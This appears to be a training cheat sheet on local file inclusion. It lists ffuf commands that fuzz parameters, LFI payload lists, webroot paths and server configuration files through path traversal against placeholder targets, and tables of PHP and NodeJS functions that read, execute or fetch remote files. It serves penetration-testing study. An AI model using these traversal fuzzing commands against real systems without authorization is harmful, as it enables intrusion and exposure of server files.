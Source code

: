 # Misc

## Command	Description

| Command                                                                                  | Description                                    |
|------------------------------------------------------------------------------------------|------------------------------------------------|
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287` | Fuzz page parameters                           |
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287` | Fuzz LFI payloads                              |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path                              |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287` | Fuzz server configurations                     |

### LFI Wordlists

- LFI-Jhaddix.txt
- Webroot path wordlist for Linux
- Webroot path wordlist for Windows
- Server configurations wordlist for Linux
- Server configurations wordlist for Windows

# File Inclusion Functions

## Function	Read Content	Execute	Remote URL

### PHP

| Function                      | Read Content | Execute | Remote URL |
|-------------------------------|--------------|---------|------------|
| `include()/include_once()`    | ✅           | ✅      | ✅         |
| `require()/require_once()`    | ✅           | ✅      | ❌         |
| `file_get_contents()`         | ✅           | ❌      | ✅         |
| `fopen()/file()`              | ✅           | ❌      | ❌         |

### NodeJS

| Function                      | Read Content | Execute | Remote URL |
|-------------------------------|--------------|---------|------------|
| `fs.readFile()`               | ✅           | ❌      | ❌         |
| `fs.sendFile()`               | ✅           | ❌      | ❌         |
| `res.render()`                | ✅           | ✅      | ❌         |

### Java
